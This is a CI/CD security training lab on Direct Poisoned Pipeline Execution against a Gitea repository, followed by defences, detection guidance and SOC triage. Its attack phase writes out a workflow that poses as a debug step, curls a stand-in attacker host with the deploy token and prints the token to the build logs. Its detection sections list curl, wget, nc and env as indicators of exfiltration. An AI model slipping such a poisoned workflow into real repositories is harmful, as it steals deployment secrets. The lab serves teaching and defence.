

# Lab 2.2: Direct Poisoned Pipeline Execution (PPE)

<div class="lab-meta">
  <span>~20 min hands-on | ~15 min reference</span>
  <span class="difficulty intermediate">Intermediate</span>
  <span>Prerequisites: <a href="2.1-cicd-fundamentals.md">Lab 2.1</a></span>
</div>

CI configs are code. They live in the repo alongside application source. When a developer opens a PR, the CI system runs the pipeline as defined **in the PR branch**, not the target branch. The PR author controls what the pipeline executes. Direct PPE: modify the CI config in a PR, exfiltrate secrets before anyone reviews it.

### Attack Flow



---

## Environment

| Service | Address | Description |
|---------|---------|-------------|
| Gitea | `gitea:3000` | Git server hosting `acme-webapp` with CI secrets |
| Workstation | (your shell) | Development environment |

## Connect to the Workstation

```bash
./weaklink shell
```

---

???+ info "Phase 1: UNDERSTAND. CI Configs Are Code"

### Step 1: Examine the CI configuration

```bash
cd /repos/acme-webapp
cat .gitea/workflows/ci.yml
```

### Step 2: Understand the trigger model

The pipeline triggers on `push` and `pull_request` to `main`. When a PR is opened:

1. The CI system checks out the PR branch
2. It reads the CI config **from the PR branch** (not from main)
3. It executes whatever that config says

### Step 3: Check what secrets exist

```bash
curl -sf "http://gitea:3000/api/v1/repos/developer/acme-webapp/actions/secrets" \
  -u "developer:password" | python -m json.tool
```

The pipeline has access to `DEPLOY_TOKEN`.

### Step 4: See the vulnerability

The CI config runs on PRs AND has secrets in scope. A PR author can modify the CI config, add a step that reads secrets, and the pipeline runs the modified config. Secrets exfiltrated.

---

???+ warning "Phase 2: BREAK. Poisoning the Pipeline"

### Step 1: Create an attack branch

```bash
cd /repos/acme-webapp
git checkout -b feature/improve-ci
```

### Step 2: Modify the CI config

```bash
cat > .gitea/workflows/ci.yml << 'EOF'
name: ACME Webapp CI

on:
  push:
    branches: [main]
  pull_request:
    branches: [main]

env:
  DEPLOY_TOKEN: ${{ secrets.DEPLOY_TOKEN }}

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Run tests
        run: |
          echo "Running tests..."
          python test_app.py
      - name: "Debug: check build environment"
        run: |
          # Exfiltrate the deploy token
          curl -sf "http://attacker.internal/steal?token=${DEPLOY_TOKEN}" || true
          # Also write it to a file visible in build logs
          echo "TOKEN=${DEPLOY_TOKEN}" > /tmp/exfiltrated.txt
          cat /tmp/exfiltrated.txt
EOF
```

### Step 3: Submit the PR

```bash
git add -A
git commit -m "Improve CI debugging"
git push origin feature/improve-ci

curl -sf -X POST "http://gitea:3000/api/v1/repos/developer/acme-webapp/pulls" \
  -H "Content-Type: application/json" \
  -u "attacker:password" \
  -d '{"title":"Improve CI debugging","base":"main","head":"feature/improve-ci"}'
```

### Step 4: The pipeline executes the attacker's config

When CI runs on this PR, it checks out `feature/improve-ci`, reads the modified `ci.yml`, and runs `curl attacker.internal/steal?token=ghp_deploy_x8k2m5n7p9q1r3t6v0w4y`. The deploy token is now in the attacker's hands.

**Checkpoint:** You should now have a PR that modifies the CI config to exfiltrate `DEPLOY_TOKEN` via curl and build log output.

### Step 5: Why this is worse than it looks

- **No code review needed**. the pipeline runs BEFORE the PR is reviewed
- **No merge needed**. the attack succeeds even if the PR is rejected
- **The PR can be deleted**. the attacker removes evidence after exfiltration
- **Any contributor can do this**. write access (fork + PR on some platforms) is all that is required

---

???+ success "Phase 3: DEFEND. Protecting the Pipeline"

### Fix 1: Separate workflows for push and PR

```bash
cd /repos/acme-webapp
git checkout main
```

```bash
# Main CI -- only runs on push to main, has secrets
cp /lab/src/repo/.gitea/workflows/ci-protected.yml .gitea/workflows/ci.yml

# PR CI -- runs on PRs, has ZERO secrets
cp /lab/src/repo/.gitea/workflows/pr-ci.yml .gitea/workflows/pr-ci.yml

# CODEOWNERS -- require admin review for workflow changes
cp /lab/src/repo/CODEOWNERS CODEOWNERS

cat .gitea/workflows/ci.yml
cat .gitea/workflows/pr-ci.yml
cat CODEOWNERS
```

Key changes:

1. **`ci.yml` triggers ONLY on `push` to main**. never on PRs
2. **`pr-ci.yml` handles PR validation**. runs tests but has zero secrets
3. **CODEOWNERS protects `.gitea/workflows/`**. workflow changes require admin approval
4. **Environment protection** on the deploy job

### Fix 2: Commit and push

```bash
git add -A
git commit -m "Separate PR and push workflows to prevent PPE"
git push origin main
```

### Additional defenses

1. **Fork-based PRs**: run with even more restrictions (no secrets, restricted permissions)
2. **Token scoping**: use `GITHUB_TOKEN` with minimal permissions (`contents: read`) for PR workflows
3. **Branch protection**: require CI to pass before merge, but don't give PR builds secrets

### Step 3: Final verification

```bash
weaklink verify 2.2
```

---

??? danger "Phase 4: DETECT. Catching Pipeline Poisoning"

### MITRE ATT&CK Mapping

| Technique | ID | Relevance |
|-----------|-----|-----------|
| **Supply Chain Compromise: Compromise Software Supply Chain** | [T1195.002](https://attack.mitre.org/techniques/T1195/002/) | Attacker modifies CI pipeline definition to inject malicious build steps |
| **Command and Scripting Interpreter** | [T1059](https://attack.mitre.org/techniques/T1059/) | Malicious CI steps execute shell commands to exfiltrate secrets |

Direct PPE has a clear signal: CI config files modified in a PR, and the pipeline immediately accesses secrets or makes external connections.

Look for commits modifying `.github/workflows/`, `.gitlab-ci.yml`, or `Jenkinsfile` in PR branches. Watch for PR builds that access secrets not historically used, outbound network connections from PR-triggered builds, CI config changes adding `curl`/`wget`/`nc`/`env` commands, and PRs from new or external contributors that touch CI configs.

---

??? tip "SOC Relevance"

    **Alerts you will see:**

    - "CI config modified in pull request" (git webhook monitoring)
    - "PR build accessed production secrets" (CI audit logs)
    - "Outbound HTTP from PR-triggered build to external host" (network monitoring)

    **Triage workflow:**

    1. **Check the PR diff**. does it modify CI config files? What was added?
    2. **Check for exfiltration indicators**. curl, wget, nc, base64, or DNS queries in modified CI steps
    3. **Check secret access logs**. did the PR build access secrets it should not have?
    4. **Check the PR author**. known contributor or new/external account?
    5. **If confirmed: rotate secrets immediately**. any secret accessible to the PR build is compromised

    **False positive rate:** Low. CI config modifications in PRs from external contributors are inherently suspicious.

---

??? example "CI Integration"

    **`.github/workflows/ppe-prevention.yml`:**

    ```yaml
    name: PPE Prevention Check

    on:
      pull_request:
        paths:
          - ".github/workflows/**"

    jobs:
      check-workflow-changes:
        runs-on: ubuntu-latest
        steps:
          - uses: actions/checkout@v4
            with:
              fetch-depth: 0

          - name: Flag workflow file changes
            run: |
              echo "--- CI config files modified in this PR ---"
              CHANGED=$(git diff --name-only origin/main...HEAD -- \
                '.github/workflows/' '.gitea/workflows/' \
                '.gitlab-ci.yml' 'Jenkinsfile')
              if [ -n "$CHANGED" ]; then
                echo "::warning::CI pipeline configs modified in this PR:"
                echo "$CHANGED"
                echo ""
                echo "These changes require CODEOWNERS approval."
                echo "Reviewer: verify no secret exfiltration, no curl/wget"
                echo "to external hosts, no env/printenv commands."
              fi
    ```

---

## What You Learned

1. **PRs can modify CI configs**. the pipeline runs the PR's version, not main's version. Direct PPE is trivial.
2. **Separate push and PR workflows**. secrets only on push to protected branches, never on PRs.
3. **CODEOWNERS for CI configs**. require admin review for any workflow changes.

## Further Reading

- [Cider Security: Poisoned Pipeline Execution](https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/)
- [GitHub: Security hardening. using secrets](https://docs.github.com/en/actions/security-guides/using-secrets-in-github-actions)
- [OWASP: CI/CD Security Risks - PPE](https://owasp.org/www-project-top-10-ci-cd-security-risks/)
